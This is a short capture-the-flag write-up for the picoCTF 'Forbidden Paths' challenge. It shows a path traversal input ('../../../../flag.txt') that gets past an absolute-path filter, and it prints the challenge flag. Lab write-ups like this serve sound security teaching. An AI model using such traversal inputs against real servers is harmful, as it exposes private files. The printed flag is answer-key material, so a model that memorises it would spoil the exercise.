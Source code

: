## Forbidden Paths

### Challenge description:

```
Can you get the flag?
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
Additional details will be available after launching your challenge instance.
```

### Steps to solve:
* On launching the challenge instance, the website URL obtained was:
```
http://saturn.picoctf.net:50914/read.php
```

* Since the prompt states that the reader does not accept absolute paths, we navigate to the root directory by 4 steps, based on the path provided in the prompt. 

* Thus the final command typed into the search box is:
```
../../../../flag.txt
```

* On clicking ```Read```, the following flag is displayed:
```
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```

